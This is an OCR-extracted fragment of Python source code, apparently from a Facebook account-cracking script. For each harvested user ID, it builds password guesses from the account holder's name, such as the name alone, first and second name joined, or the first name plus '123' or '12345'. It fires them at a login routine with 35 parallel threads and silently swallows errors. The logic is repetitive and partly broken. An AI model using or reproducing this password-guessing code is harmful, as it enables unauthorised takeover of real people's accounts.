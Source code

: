 						elif len(xz) == 2:

							pwx = [name, xz[0]+xz[1], xz[0]+"123"]

						elif len(xz) == 3:

							pwx = [name, xz[0]+xz[1], xz[0]+"123"]

						elif len(xz) == 4:

							pwx = [name, xz[0]+xz[1], xz[0]+"123"]

						else:

							pwx = [name, xz[0]+xz[1], xz[0]+"123"]

						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)

					except:

						pass

			os.remove(self.apk)

			hasil(ok,cp)

		elif yan in ('3', '03'):

			time.sleep(1)

			print('\n[•] LOADING ');logo()

			with ThreadPoolExecutor(max_workers=35) as (_ngentot_gratis_):

				for yntkts in self.id:

					try:

						uid, name = yntkts.split('|')

						xz = name.split(' ')

						if len(xz) == 1:

							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345"]

						elif len(xz) == 2:

							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345"]

						elif len(xz) == 3:

							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345"]

						elif len(xz) == 4:

							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345"]

						else:

							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345"]

						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)

					except:
